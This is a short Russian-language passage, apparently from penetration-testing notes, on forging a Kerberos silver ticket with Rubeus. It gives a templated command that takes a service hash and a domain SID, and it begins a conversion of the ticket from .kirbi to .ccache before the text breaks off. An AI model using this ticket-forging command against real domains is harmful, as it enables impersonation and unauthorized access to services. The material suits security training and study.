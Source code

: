 С помощью Rubeus:

`Rubeus.exe silver /service:<SERVICE>/<TARGET>.<DOMAIN> /aes256:<HASH> /sid:<DOMAIN_SID> /user:<USER> /domain:<DOMAIN> /outfile:<FILENAME>.kirbi`

![](../../../Attachments/st5.png)

Далее, для разнообразия, проведем конвертацию билета из формата .kirbi в .ccache с помощью ticketConverter:
